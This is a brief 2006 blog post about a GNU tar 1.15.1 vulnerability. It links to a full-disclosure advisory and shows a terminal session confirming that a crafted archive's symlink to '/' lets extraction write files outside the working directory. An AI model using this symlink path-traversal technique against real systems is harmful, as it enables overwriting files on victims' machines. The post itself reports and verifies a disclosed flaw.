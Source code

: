 ```yaml
--- 
layout: post
title: tar exploit in the wild
created: 1164153352
---
```

Just when you thought you were safe...

[http://lists.grok.org.uk/pipermail/full-disclosure/2006-November/050812.html](http://lists.grok.org.uk/pipermail/full-disclosure/2006-November/050812.html)

Have tested this and it works as described:

<pre>
nathan@holly /tmp $ tar --version
tar (GNU tar) 1.15.1
nathan@holly /tmp $ ~/tmp/tarxyz > foo.tar
nathan@holly /tmp $ mkdir -p xyz/home/foo
nathan@holly /tmp $ echo "Hello" > xyz/home/foo/hello.txt
nathan@holly /tmp $ tar -rf foo.tar xyz/home/foo
nathan@holly /tmp $ rootdo mkdir /home/foo
nathan@holly /tmp $ rootdo chown nathan /home/foo
nathan@holly /tmp $ rm -rf xyz
nathan@holly /tmp $ tar -xf foo.tar
nathan@holly /tmp $ ls -l xyz
lrwxrwxrwx 1 nathan users 1 Nov 22 00:03 xyz -> /
nathan@holly /tmp $ cat /home/foo/hello.txt
Hello
nathan@holly /tmp $ 
</pre>
